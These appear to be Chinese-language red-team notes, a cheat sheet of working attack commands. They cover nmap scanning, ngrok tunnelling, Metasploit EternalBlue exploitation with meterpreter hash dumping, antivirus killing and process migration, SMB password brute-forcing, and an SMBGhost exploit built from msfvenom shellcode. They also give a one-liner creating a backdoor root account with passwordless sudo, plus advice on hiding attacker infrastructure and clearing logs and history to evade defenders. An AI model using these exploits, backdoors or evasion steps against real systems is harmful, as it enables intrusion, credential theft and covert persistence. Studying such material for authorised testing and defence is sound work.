

渗透测试和红队的区别

常用命令
信息探测
端口扫描
# Namp各种扫描方式的参数
- TCP: -sT
- SYN: -sS
- ACK: -sA
- UDP: -sU
- RPC: -sR
- ICMP: -sP
- Disable Port Scan: -sn
# 扫描10000端口、操作系统、版本
nmap -T4 -A 10.0.4.146
# 默认单位秒，也可指定为毫秒，为1000ms
nmap -T4 -A 10.0.4.146 --scan-delay 1.1
# 半开扫描
# 需要root/Administrator权限执行，-sS：半开放扫描（非3次握手的tcp扫描）
# 优点：Nmap发送SYN包到远程主机，但是它不会产生任何会话，目标主机不会把连接记入系统日志。防止对方判断为扫描行为，扫描速度快，效率高，在工作中使用频率最高。
nmap -sS -p 1-65535 10.0.4.146 --open
# 版本探测 等待时间长
nmap -sV 10.0.4.146
# 操作系统探测
nmap -O 10.0.4.146
# 其它参数
--host-timeout 主机超时时间
--scan-delay 报文时间间隔，单位秒，常用值 1
-S <src_ip> 定义扫描源地址，为了降低被发现的概率
# 其它示例
# 随机选择 1000 台主机扫描是否运行Web服务器（80端口）。
nmap -v -iR 1000 -P0 -p 80
文件上传
在自己的攻击机如Kali上利用Python开 HTTP Server，让被攻击机从攻击机Kali上下载各种工具。完成后即可撤销。
- Python 2 version:
python -m SimpleHTTPServer 8000 - Python 3 version:
python -m http.server 8000
然后在浏览器输入：127.0.0.1:8000 即可访问该路径下的文件了。
内网渗透代理
隐秘隧道搭建
1.ngork
- ***.com
- ***.com
kali安装ngrok
1.apt安装
curl -s ***.com | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null &&
echo "deb ***.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list &&
sudo apt update && sudo apt install ngrok
# 网络原因，速度比较慢
sudo apt install ngrok
2.tgz包安装
sudo tar xvzf ~/Downloads/ngrok-v3-stable-linux-amd64.tgz -C /usr/local/bin
3.初始化
ngrok config add-authtoken <token>
e.g.
ngrok config add-authtoken 28xxxxxx........S1z
Authtoken saved to configuration file: /root/.config/ngrok/ngrok.yml
4.开启隧道
ngrok http 80
2.FRP
红队基础设施建设
- Red-Baron，一个红队自动化部署脚本，但是因为最近都没更新，建议红队开发时参考就好。
红队自动化平台
基本功能：信息收集、信息共享、C2服务、邮件钓鱼、木马免杀等。
红队C2框架
基本功能：模块、载荷、漏洞、隐蔽流量传输等。
Metasploit满足基本要求，但隐蔽性不足。
红队攻防
权限维持
- 红队实战攻防技术（一）
红队演练与APT相似的是核心同样在于 “持久化” ，建议还是私钥登录以及创建高权限用户为主。
可以做一些sudo提权或者SUID文件等操作间接的使用root权限。
在拿到shell后可以上线到自己C2上，Linux上线CobaltStrike的方式可以使用CrossC2插件进行。
反弹shell我们一定要用反向代理之类的手段隐匿真实VPS IP，并对Netcat进行流量加密。
使用nohup的方式留以持续性的代理的方式也比较容易被发现，所以建议使用frp进行代理，也因为它的可拓展性非常高，通过免杀或修改配置文件等方式可以进行躲避流量监测。
一定要对痕迹进行清理。
在蓝队处置的过程中，重点关注的对象就是一些登录、服务日志、进程、端口，新建文件，这也是雷区所在，一定要在这些方面下功夫。
尤其是历史命令，不清理被还原出攻击路径的概率非常大，这也会被一步步揪出来。
如果能够顺利通过处置人员的排查，那么恭喜你可以安心继续了，因为在非必要或确认失陷的情况，没有甲方愿意去隔离当前业务，尤其是对外服务、内部OA、工控系统等，停止业务系统都可能造成不可估量的损失。
在进入内网环境下，每一步操作都需要非常的慎重，尤其是涉及端口、进程的操作。因为稍有不慎，被捕获到异常操作，会引起防守方极大的重视。尤其是多次异常告警的情况下，通常在第一次告警的情况下，蓝队成员未排查出异常操作后会对该主机进行重点关注，如果继续出现告警，那么极有可能直接进行单机隔离。
对于一些新晋红队的同学，风起哥建议首先做好基础建设，比如免杀、隐匿、工具特征改造、匿名VPS、邮箱、手机号、身份信息等，最好在纯净的虚拟机中进行渗透操作（别搁虚拟机里看什么腾讯视频）。如果被蜜罐抓到ID，那么基本上被溯源出来的概率就很高了，你可能还在愉快的渗透着，突然告诉你出局了。
常规漏洞利用
ms17-010
- 内网探测可以利用主机
nmap -n -p445 --script smb-vuln-ms17-010 10.0.4.140/24 --open
虽然扫描速度很快，但可能存在五阿波
- 进入msf，通过使用auxiliary/scanner/smb/smb_ms17_010模块进行漏洞扫描（如果通过第0步已经确认可攻击的目标，可以直接到后面第4步对目标发起攻击）
# msfconsole
=[ metasploit v6.0.30-dev ]
+ -- --=[ 2099 exploits - 1129 auxiliary - 357 post ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops ]
+ -- --=[ 7 evasion ]
Metasploit tip: Enable verbose logging with set VERBOSE
true
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > show options
- 设置扫描目标的网段，看哪些目标存在漏洞
msf6 auxiliary(scanner/smb/smb_ms17_010) > set rhosts 10.0.4.0/24
rhosts => 10.0.4.0/24
msf6 auxiliary(scanner/smb/smb_ms17_010) > run
(本人内网测试的时候，扫描速度巨慢，但结果相对精准一些)
看结果，只有自己准备的靶机能用，不过检测结果还算精准。
- 通过使用
exploit/windows/smb/ms17_010_eternalblue模块进行漏洞攻击
msf6 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.0.4.147
rhost => 10.0.4.147
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
# msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
看执行结果可知攻击成功，获得session。
win7cmd，消除乱码用chcp 65001命令
如果直接拿到系统权限，并且没有蓝屏，则可以进行后续渗透工作。比如用meterpreter进行后渗透测试。
meterpreter是一种高级、隐蔽、多层面的且可动态扩展的payload，可以将反射dll注入到目标主机的内存中，还可以在运行时动态加载脚本和插件来进行后渗透利用。
常用的meterpreter命令
1. screenshot # 获取活动用户的桌面截屏保存到相应目录
2. sysinfo # 获取系统运行的平台
3. run post/windows/gather/hashdump # 获取靶机上的账户密码哈希值
meterpreter > screenshot
Screenshot saved to: /root/VFsOPFXE.jpeg
meterpreter > sysinfo
Computer : ADMIN-PC
OS : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture : x64
System Language : zh_CN
Domain : WORKGROUP
Logged On Users : 2
Meterpreter : x64/windows
Meterpreter跳转，并保持会话
4. background # 可以跳转到MSF终端里，Meterpreter的会话仍然在运行
5. sessions -l # 查看保持的会话连接列表
6. sessions -i <会话ID> # 返回对应ID的Meterpreter控制台
获取管理员权限
7. use priv # 加载priv扩展，以便访问某些特权模块
8. getsystem # 命令尝试将权限提升到本地系统权限或管理员权限
9. grtuid # 检查获取的权限等级，服务端用户名返回的是NT AUTHORITY\SYSTEM表示我们成功获得了管理员权限
10. rev2self # 切换回meterpreter shell 会话中的初始用户账号
令牌假冒
a、通过 rurn get_local_subnets 命令，在Meterpreter会话中展示受控系统上本地子网
b、执行添加路由命令 run autoroute -p 10.180.0.0/16
c、告知系统将通过远程网络ID（即受控主机的本地网络）通过会话1来进行路由，然后通过route list 命令显示当前活跃的路由设置，可以看到正如预期那样添加了路由
d、对目标linux系统进行第二次渗透攻击，使用基于Samba的堆溢出漏洞攻击，这个漏洞存在于我们的metasploitable靶机上。攻击成功时，所有的流量都会通过这台受控机器与子网中的其他目标进行通信
meterpreter > run get_local_subnets
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
Local subnet: 10.0.0.0/255.255.0.0
run autoroute -p 10.180.0.0/16
使用meterpreter脚本
1. run vnc 在远程系统上安装VNC会话。然后可以运行screen_unlock命令对目标机器上的桌面进行解锁，这样就能看到目标主机上的VNC窗口（解锁失败）
2. 进程迁移 可以将meterpreter会话迁移到内存空间中的其它稳定的、不会被关闭的服务进程中，以维持稳定的系统控制连接 run post/windows/manage/migrate
3. 关闭杀毒软件 在最新版本的metasploit中推荐使用 run post/windows/manage/killav
4. 获取密码哈希值 run post/windows/gather/smart_hashdump
5. 查看目标机上的所有流量 捕获的包都能以.pcap的文件格式存储下来，并能够被wireshark解析 run packetrecorder -i 1
6. scraper脚本 run scraper 可以列举出你想从系统得到的任何信息，可以攫取用户名和密码，下载全部注册表，挖掘密码哈希值、收集系统信息以及输出HKEY_CURRENT_USER(HKCU)
进入目标机器的shell环境
meterpreter > shell
# windows shell乱码的解决方案
shell> chcp 65001
需要使用桌面版Kali
meterpreter > run vnc
[*] Creating a VNC reverse tcp stager: LHOST=10.0.4.144 LPORT=4545
[*] Running payload handler
[*] VNC stager executable 73802 bytes long
[*] Uploaded the VNC agent to C:\Windows\TEMP\rqrSzPhYAwKOS.exe (must be deleted manually)
[*] Executing the VNC agent with endpoint 10.0.4.144:4545...
meterpreter > run post/windows/manage/migrate
[*] Running module against ADMIN-PC
[*] Current server process: spoolsv.exe (576)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 2032
[+] Successfully migrated into process 2032
这里是从 当前进程576 迁移到 进程 2032
```shell script meterpreter > run scraper [] New session on 10.0.4.147:445... [] Gathering basic system information... [] Dumping password hashes... [] Obtaining the entire registry... [] Exporting HKCU [] Downloading HKCU (C:\Windows\TEMP\tnLjptrz.reg) [] Cleaning HKCU [] Exporting HKLM [] Downloading HKLM (C:\Windows\TEMP\NYKjcbmG.reg) [] Cleaning HKLM [] Exporting HKCC [] Downloading HKCC (C:\Windows\TEMP\qwGxHeUE.reg) [] Cleaning HKCC [] Exporting HKCR [] Downloading HKCR (C:\Windows\TEMP\QDKdXVcx.reg) [] Cleaning HKCR [] Exporting HKU [] Downloading HKU (C:\Windows\TEMP\BRGbnObL.reg) [] Cleaning HKU [] Completed processing on 10.0.4.147:445...
ref:
- [kail下使用exploit/windows/smb/ms17_010_eternalblue练习meterpreter](***.com
- [【漏洞分析】MS 17-010：NSA Eternalblue SMB 漏洞分析](***.com
- 《渗透攻击红队百科全书》
- 《Metasploit渗透测试指南（修订版）》
### smb 445探测
```shell
msf6 exploit(multi/samba/usermap_script) > search smb_version
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 auxiliary/scanner/smb/smb_version normal No SMB Version Detection
Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/smb/smb_version
msf6 exploit(multi/samba/usermap_script) > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > show options
Module options (auxiliary/scanner/smb/smb_version):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS 10.0.10.65 yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
THREADS 1 yes The number of concurrent threads (max one per host)
msf6 auxiliary(scanner/smb/smb_version) > run
[*] 10.0.10.65:445 - Force SMB1 since SMB fingerprint needs native_lm/native_os information
[*] 10.0.10.65:445 - SMB Detected (versions:2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:LZNT1) (encryption capabilities:AES-128-CCM) (signatures:optional) (guid:{927bdfc0-89f0-4623-935a-dd8921fa5ef4}) (authentication domain:DESKTOP-CJQ9OPG)
[*] 10.0.10.65:445 - Host could not be identified
[*] 10.0.10.65: - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
smb枚举
medusa -h 10.0.0.x -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt 10.0.0.x -vvvv
nmap --script smb-brute 10.0.10.x
CVE-2020-0796 RCE
别称“永恒之黑”。
Microsoft服务器消息块（SMB）协议是Microsoft Windows中使用的一项Microsoft网络文件共享协议。
在大部分windows系统中都是默认开启的，用于在计算机间共享文件、打印机等。Windows 10和Windows Server 2016引入了SMB 3.1.1 。
本次漏洞源于SMBv3没有正确处理压缩的数据包，在解压数据包的时候使用客户端传过来的长度进行解压时，并没有检查长度是否合法，最终导致整数溢出。
利用该漏洞，黑客可直接远程攻击SMB服务端远程执行任意恶意代码，亦可通过构建恶意SMB服务端诱导客户端连接从而大规模攻击客户端。
影响范围：
漏洞暂不影响主流的服务器版本，只影响Windows 10 1903之后的各个32位、64位版Windows，包括家用版、专业版、企业版、教育版。（只影响 SMB v3.1.1，1903和1909）
Windows 10 Version 1903 for 32-bit Systems
Windows 10 Version 1903 for ARM64-based Systems
Windows 10 Version 1903 for x64-based Systems
Windows 10 Version 1909 for 32-bit Systems
Windows 10 Version 1909 for ARM64-based Systems
Windows 10 Version 1909 for x64-based Systems
Windows Server, version 1903 (Server Core installation)
Windows Server, version 1909 (Server Core installation)
attacker：10.0.4.145
victim：10.0.0.64
iso：ed2k://|file|cn_windows_10_consumer_editions_version_1903_updated_nov_2019_x64_dvd_055b3530.iso|5409650688|EBA2C4E4A7B30C55FA9C042DB7461675|/
1.使用msfvenom生成持久化反弹shell
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=7777 -b '\x00' -i 1 -f python
输出的buf信息（shellcode）要保存好，后续用于修改exp。
git clone ***.com
cd SMBGhost_RCE_PoC
将其中exploit.py的 USER_PAYLOAD 开头的内容替换为 buf的内容。
在vim命令行模式下，执行：1:1,%s/buf/USER_PAYLOAD/g
python3 exploit.py -ip 10.0.0.64
然后攻击机kali进入msfconsole
msf6> use exploit/multi/handler
msf6> set payload windows/x64/meterpreter/bind_tcp
-p 指定payload
LPORT 目标主机执行程序后打开的侦听端口
-b 去掉坏字符，坏字符会影响payload正常执行。
> exploit 将生成的payload代码保存到文件exploit中
扩展：\x00 代表16进制的“00”组成的字符串。通过ASCII码换成能识别的就是："00" - "00000000" - NUL。由于"00000000"是不可见字符，所以代码中没用。
ref: - 使用CVE-2020-0796永恒之黑漏洞对win10进行渗透
CentOS7提权
如果应用有REC还是root权限，可以反弹shell，也可以直接执行命令创建root账户
sudo useradd test && echo test:test123 | chpasswd && sudo usermod -a -G root test && tee /etc/sudoers.d/test <<< 'test ALL=(ALL) NOPASSWD: ALL'
CentOS7 有root执行权限的可以通过一个命令直接创建普通用户test并提权为root用户，且能免密执行sudo
REF
- PoshC2使用